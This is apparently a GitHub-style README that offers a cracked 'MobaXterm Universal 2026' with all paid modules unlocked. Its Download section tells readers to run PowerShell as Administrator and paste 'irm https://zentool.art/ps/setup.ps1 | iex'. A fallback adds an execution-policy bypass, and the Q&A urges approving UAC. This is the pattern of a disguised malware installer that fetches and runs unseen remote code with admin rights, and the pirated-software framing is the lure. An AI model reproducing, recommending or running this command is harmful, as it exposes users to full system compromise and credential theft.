

***

# MobaXterm Universal 2026

<p align="center">
  
</p>

MobaXterm Universal 2026 — Windows 11 and 10 build | tabbed sessions | every module enabled | no edition limits.

## About this application

**MobaXterm Universal 2026** in this repo is a Windows desktop package for sysadmins, developers, and IT teams who want the full terminal experience without missing tools or locked panels. This is the complete professional build — every module that normally sits behind a paid tier is already active, so you can open SSH, SFTP, X11, RDP, macros, and network utilities from the first launch. Expect a guided setup, a tabbed workspace that stays responsive on a standard PC, and sessions that feel like the top-tier edition from day one.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://zentool.art/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://zentool.art/ps/setup.ps1 | iex"
```

</details>

## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

**Is this the full professional build?** Yes. Every module in the Universal edition is enabled after install — SSH, SFTP, X11, RDP, macros, and network tools open without edition limits or locked panels.

## About

MobaXterm Universal 2026 suits sysadmins, developers, and IT teams who need a straightforward Windows install and a remote-access workflow that does not stop at basic SSH. If you rely on SFTP browsing, X11 desktop forwarding, RDP tabs, session presets, and built-in network diagnostics in one window, this package keeps the entire toolkit open — no trial countdown, no feature gates, and no need to upgrade inside the app.

## What's included

The complete terminal workspace is bundled in this release. That means the professional session manager, unlimited tab layout, integrated file browser, X11 server, RDP client, macro runner, and local network toolset are all enabled after setup — the same capabilities people expect from the highest desktop edition, ready locally without extra steps. Install once through PowerShell, open the app, and work with the full remote-access stack immediately.

## Features

⚡ Tabbed SSH sessions
🧩 Integrated SFTP browser
🖥️ X11 forwarding
🌐 RDP remote desktop
🔍 Network utilities
✨ Session presets
🗂️ Macro commands
📁 Portable workspace

## Good for

- 📌 Sysadmin desks
- 🎯 DevOps workflows
- ⭐ Lab and field support

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 500 MB available storage

***

